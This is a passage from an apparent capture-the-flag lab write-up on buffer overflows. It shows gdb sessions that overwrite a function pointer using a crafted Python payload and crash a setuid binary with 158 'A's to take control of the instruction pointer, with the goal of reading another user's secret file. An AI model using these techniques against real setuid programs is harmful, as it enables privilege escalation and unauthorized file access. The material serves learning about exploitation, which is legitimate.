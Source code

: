 ```
(gdb) run <<< $(python -c "print('A'*14+'\x67\x05\x40')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-2/func-pointer <<< $(python -c "print('A'*14+'\x67\x05\x40')")
this is the special function
you did this, friend!
[Inferior 1 (process 19029) exited normally]
```

## _Buffer Overflows_

Go to `overflow-3` directory and list contents:

```
cd overflow-3
ls
```

Looks like there's a `secret.txt` file but we can't read it:

```
[user1@ip-10-10-214-67 overflow-3]$ cat secret.txt
cat: secret.txt: Permission denied
```

Let's see why:

```
[user1@ip-10-10-214-67 overflow-3]$ ls -l
total 20
-rwsrwxr-x 1 user2 user2 8264 Sep  2  2019 buffer-overflow
-rw-rw-r-- 1 user1 user1  285 Sep  2  2019 buffer-overflow.c
-rw------- 1 user2 user2   22 Sep  2  2019 secret.txt
```

Apparently it belongs to `user2` as does the `buffer-overflow` binary. Which means, if we can exploit the binary, we can read `secret.txt`. 

With the help of this [write-up](https://shamsher-khan-404.medium.com/buffer-overflows-tryhackme-writeup-348aec9c1dfe) I found out that buffer overflow is possible by:

```
gdb -q buffer-overflow
```

And then:

```
(gdb) run $(python -c "print('A'*158)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*158)")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-64.amzn2.0.3.x86_64
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```
